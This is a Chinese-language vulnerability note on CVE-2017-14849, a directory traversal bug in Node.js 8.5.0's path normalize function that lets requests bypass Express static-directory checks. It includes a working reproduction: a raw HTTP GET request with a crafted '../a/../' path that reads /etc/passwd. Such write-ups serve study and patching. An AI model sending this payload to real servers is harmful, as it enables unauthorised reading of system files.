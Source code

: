 （CVE-2017-14849）Node.js 目录穿越漏洞
======================================

一、漏洞简介
------------

原因是 Node.js 8.5.0
对目录进行`normalize`操作时出现了逻辑错误，导致向上层跳跃的时候（如`../../../../../../etc/passwd`），在中间位置增加`foo/../`（如`../../../foo/../../../../etc/passwd`），即可使`normalize`返回`/etc/passwd`，但实际上正确结果应该是`../../../../../../etc/passwd`。

express这类web框架，通常会提供了静态文件服务器的功能，这些功能依赖于`normalize`函数。比如，express在判断path是否超出静态目录范围时，就用到了`normalize`函数，上述BUG导致`normalize`函数返回错误结果导致绕过了检查，造成任意文件读取漏洞。

当然，`normalize`的BUG可以影响的绝非仅有express，更有待深入挖掘。不过因为这个BUG是node
8.5.0 中引入的，在 8.6 中就进行了修复，所以影响范围有限。

二、漏洞影响
------------

Node.js 8.5.0

三、复现过程
------------

    GET /static/../../../a/../../../../etc/passwd HTTP/1.1
    Host: www.0-sec.org:3000
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close

![5.png](resource/(CVE-2017-14849)Node.js目录穿越漏洞/media/rId24.png)

参考链接
--------

> https://vulhub.org/\#/environments/node/CVE-2017-14849/

